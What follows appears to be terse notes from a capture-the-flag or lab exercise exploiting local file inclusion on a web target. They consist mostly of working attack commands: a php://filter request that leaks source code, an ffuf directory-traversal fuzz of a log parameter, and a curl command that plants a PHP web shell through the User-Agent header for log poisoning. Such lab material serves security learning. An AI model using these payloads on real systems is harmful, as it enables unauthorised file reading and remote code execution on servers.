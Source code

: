 
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

```php
<?php 
	// echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
?>
```

![[Pasted image 20241011131524.png]]

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://83.136.253.171:44707/ilf_admin/index.php?log=../../../../../FUZZ -fs 2046
```

![[Pasted image 20241011132046.png]]

```php
curl -A '<?php system($_GET['cmd']); ?>' http://83.136.253.171:44707
```


